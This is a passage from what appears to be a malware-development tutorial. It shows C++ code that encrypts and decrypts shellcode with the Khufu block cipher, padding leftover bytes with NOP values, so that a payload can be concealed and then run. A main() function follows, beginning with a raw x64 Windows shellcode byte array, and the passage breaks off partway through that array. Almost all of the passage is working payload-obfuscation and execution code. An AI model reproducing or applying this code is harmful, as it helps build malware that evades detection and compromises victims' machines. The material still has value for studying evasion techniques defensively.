 ```cpp
  block[1] = (left >> 16) & 0xFF;
  block[2] = (left >> 8) & 0xFF;
  block[3] = left & 0xFF;
  block[4] = (right >> 24) & 0xFF;
  block[5] = (right >> 16) & 0xFF;
  block[6] = (right >> 8) & 0xFF;
  block[7] = right & 0xFF;
}
```

The main logic are encrypting and decrypting shellcode functions:    

```cpp
void khufu_encrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_encrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    khufu_encrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

void khufu_decrypt_shellcode(unsigned char* shellcode, int shellcode_len) {
  int i;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    khufu_decrypt(shellcode + i * BLOCK_SIZE, key);
  }
  // check if there are remaining bytes
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    khufu_decrypt(pad, key);
    memcpy(shellcode + (shellcode_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}
```

As you can see, the shellcode is encrypted and decrypted block by block. Note that if the shellcode length is not a multiple of the block size, it is padded (`0x90`) before encryption and decrypted accordingly.    

Finally, we need to run payload:    

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
```